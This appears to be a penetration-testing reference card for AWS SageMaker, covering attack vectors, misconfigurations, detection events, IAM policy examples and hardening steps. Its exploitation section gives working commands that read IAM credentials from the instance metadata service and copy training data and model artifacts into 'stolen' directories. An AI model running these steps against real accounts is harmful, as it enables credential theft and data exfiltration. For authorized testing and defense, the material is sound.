

#  AWS SageMaker Security



> **Category**: ML PLATFORM

Amazon SageMaker is a fully managed machine learning platform. Attackers target notebooks for code execution, training jobs for data exfiltration, models for IP theft, and endpoints for inference manipulation.

## Quick Stats

| Risk Level | Code Execution | Data Access | Inference |
| --- | --- | --- | --- |
| **HIGH** | **Notebooks** | **Training** | **Endpoints** |

## Service Overview

### Notebook Instances

Managed Jupyter notebook environments for data exploration and model development. Run on EC2 instances with IAM roles for AWS service access.

> Attack note: Full code execution with IAM role credentials accessible via IMDS

### Training Jobs

Managed compute for model training. Access training data from S3, output models to S3. Can use custom containers or built-in algorithms.

> Attack note: Training data often contains sensitive information, credentials in environment

### Model Endpoints

Real-time inference endpoints hosting trained models. Can be invoked directly or behind API Gateway. Auto-scaling based on traffic.

> Attack note: Model inference can leak training data through carefully crafted inputs

## Security Risk Assessment

`█████████░` **8.5/10** (CRITICAL)

SageMaker presents high risk due to code execution capabilities in notebooks, access to sensitive training data, valuable model intellectual property, and often overly permissive IAM roles for data scientist productivity.

## ⚔️ Attack Vectors

### Notebook Attacks

- Execute arbitrary code in notebooks
- Access IMDS for IAM credentials
- Install backdoors and reverse shells
- Exfiltrate data through notebook outputs
- Access connected S3 buckets and secrets

### Model & Data Theft

- Download trained models from S3
- Access training datasets
- Extract model through inference API
- Steal feature engineering code
- Clone model artifacts and weights

## ⚠️ Misconfigurations

### Notebook Issues

- Internet access enabled (direct mode)
- Root access enabled on notebooks
- Execution role with admin permissions
- Unencrypted EBS storage volumes
- Public presigned URLs for notebooks

### Training & Endpoint Issues

- Training data in unencrypted S3
- Model artifacts publicly accessible
- Endpoints without authentication
- VPC not configured for isolation
- Secrets in hyperparameters/env vars

## 🔍 Enumeration

**List Notebook Instances**
```bash
aws sagemaker list-notebook-instances
```

**Describe Notebook Instance**
```bash
aws sagemaker describe-notebook-instance \\
  --notebook-instance-name my-notebook
```

**List Training Jobs**
```bash
aws sagemaker list-training-jobs --status-equals Completed
```

**List Models**
```bash
aws sagemaker list-models
```

**List Endpoints**
```bash
aws sagemaker list-endpoints
```

## 📓 Notebook Exploitation

### Code Execution

- Create presigned URL to access notebook
- Execute Python/shell in notebook cells
- Access IAM credentials via IMDS
- Pivot to other AWS services
- Install persistence via startup scripts

### Privilege Escalation

- Abuse notebook execution role
- Access S3 training data buckets
- Read Secrets Manager secrets
- Call other AWS APIs with role
- Modify lifecycle configurations

> **Critical:** Notebook instances often have overly permissive roles for data scientist productivity - check role policies!

## 🎯 Model & Inference Attacks

### Model Theft

- Download model artifacts from S3
- Extract model via inference queries
- Steal hyperparameters from training jobs
- Clone endpoint configurations
- Access model registry versions

### Inference Attacks

- Model inversion - extract training data
- Adversarial inputs for misclassification
- Prompt injection for LLM endpoints
- Denial of service via resource exhaustion
- Data poisoning through feedback loops

## 🛡️ Detection

### CloudTrail Events

- CreatePresignedNotebookInstanceUrl
- CreateNotebookInstance
- CreateTrainingJob
- CreateModel
- InvokeEndpoint (data events)

### Indicators of Compromise

- Presigned URLs created by unknown users
- Unusual notebook access patterns
- Large data transfers from training jobs
- Model downloads to unknown locations
- Endpoint invocations from suspicious IPs

## Exploitation Commands

**Create Presigned Notebook URL**
```bash
aws sagemaker create-presigned-notebook-instance-url \\
  --notebook-instance-name target-notebook

# Returns URL valid for 5 minutes - opens Jupyter directly
```

**Access Credentials in Notebook**
```bash
# Inside SageMaker notebook
import requests
r = requests.get('http://169.254.169.254/latest/meta-data/iam/security-credentials/')
role = r.text
creds = requests.get(f'http://169.254.169.254/latest/meta-data/iam/security-credentials/{role}').json()
print(creds['AccessKeyId'], creds['SecretAccessKey'], creds['Token'])
```

**Download Training Data**
```bash
# Find training job's data location
aws sagemaker describe-training-job \\
  --training-job-name job-name \\
  --query 'InputDataConfig[*].DataSource.S3DataSource.S3Uri'

# Download the data
aws s3 cp s3://training-data-bucket/dataset/ ./stolen-data/ --recursive
```

**Steal Model Artifacts**
```bash
# Get model artifact location
aws sagemaker describe-model \\
  --model-name production-model \\
  --query 'PrimaryContainer.ModelDataUrl'

# Download model
aws s3 cp s3://model-bucket/model.tar.gz ./stolen-model.tar.gz
```

**Invoke Endpoint for Data Extraction**
```bash
aws sagemaker-runtime invoke-endpoint \\
  --endpoint-name production-endpoint \\
  --content-type application/json \\
  --body '{"input": "extract training examples similar to: [probe]"}' \\
  output.json
```

**List and Access Feature Store**
```bash
# List feature groups
aws sagemaker list-feature-groups

# Describe feature group for data location
aws sagemaker describe-feature-group \\
  --feature-group-name customer-features \\
  --query 'OfflineStoreConfig.S3StorageConfig.S3Uri'
```

## Policy Examples

### ❌ Dangerous - Full SageMaker Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "sagemaker:*",
      "s3:*"
    ],
    "Resource": "*"
  }]
}
```

*Full access enables model theft, data exfiltration, and resource manipulation*

### ✅ Secure - Scoped Notebook Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "sagemaker:CreatePresignedNotebookInstanceUrl",
      "sagemaker:DescribeNotebookInstance"
    ],
    "Resource": "arn:aws:sagemaker:us-east-1:123456789012:notebook-instance/my-notebook",
    "Condition": {
      "IpAddress": {"aws:SourceIp": "10.0.0.0/8"}
    }
  }]
}
```

*Access limited to specific notebook with IP restriction*

### ❌ Dangerous - Overpermissive Execution Role

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "s3:*",
      "secretsmanager:GetSecretValue",
      "kms:Decrypt"
    ],
    "Resource": "*"
  }]
}
```

*Execution role with wildcard S3 and secrets access - common but dangerous*

### ✅ Secure - Least Privilege Execution Role

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:GetObject", "s3:PutObject"],
    "Resource": [
      "arn:aws:s3:::sagemaker-data-bucket/training/*",
      "arn:aws:s3:::sagemaker-data-bucket/models/*"
    ]
  }]
}
```

*Execution role restricted to specific data paths needed for training*

## Defense Recommendations

### 🔐 Enable VPC Mode

Configure notebooks and training jobs to run in VPC without direct internet access.

```bash
aws sagemaker create-notebook-instance \\
  --notebook-instance-name secure-notebook \\
  --direct-internet-access Disabled \\
  --subnet-id subnet-xxx \\
  --security-group-ids sg-xxx
```

### 🚫 Disable Root Access

Disable root access on notebook instances to limit privilege escalation.

```bash
aws sagemaker create-notebook-instance \\
  --root-access Disabled
```

### 🔒 Encrypt All Storage

Enable KMS encryption for notebook volumes, training data, and model artifacts.

```bash
aws sagemaker create-notebook-instance \\
  --kms-key-id alias/sagemaker-key
```

### 📝 Scope Execution Roles

Apply least privilege to notebook and training job execution roles.

### 🔑 Use VPC Endpoints

Create VPC endpoints for SageMaker APIs to avoid public internet exposure.

```bash
aws ec2 create-vpc-endpoint \\
  --vpc-id vpc-xxx \\
  --service-name com.amazonaws.us-east-1.sagemaker.api
```

### 📊 Monitor Presigned URLs

Alert on CreatePresignedNotebookInstanceUrl calls from unexpected principals.

---

*AWS SageMaker Security Card*

*Always obtain proper authorization before testing*
